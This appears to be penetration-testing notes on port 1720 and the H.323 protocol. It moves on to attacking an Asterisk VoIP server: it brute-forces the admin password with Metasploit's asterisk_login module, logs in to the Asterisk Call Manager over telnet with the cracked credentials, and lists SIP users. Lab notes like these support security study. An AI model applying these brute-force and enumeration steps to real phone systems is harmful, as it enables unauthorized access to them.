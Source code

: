 # communication
Port 1720:
----------

|     |     |
| --- | --- |
| Name: | **h323hostcall** |
| Purpose: | ![](communication/transpixel.gif)**H.323 (Microsoft NetMeeting) call setup protocol** |
| Description: | ![](communication/transpixel.gif)Port 1720 is used by the H.323 teleconferencing protocol (most commonly encountered in Microsoft NetMeeting) during call setup negotiation. |
| Related Ports: | ![](communication/transpixel.gif)[389](https://www.grc.com/port_389.htm) ,[1002](https://www.grc.com/port_1002.htm) |

H. 323 is the more mature of the two, but problems may arise due to lack of flexibility. SIP is currently less defined, but has greater scalability which could ease internet application integration. 

Searching `asterisk` in msfconsole shows `auxiliary/voip/asterisk_login` module with which we're able to bruteforce the password of `admin`(abc123)

using telnet on port 5038(asterisk call manager):

```text-plain
Action: Login
ActionID: 1
Username: admin
Secret: abc123

Response: Success
ActionID: 1
Message: Authentication accepted
```

Will show authentication accepted, than we type:

```text-plain
action:command
command:sip show users
```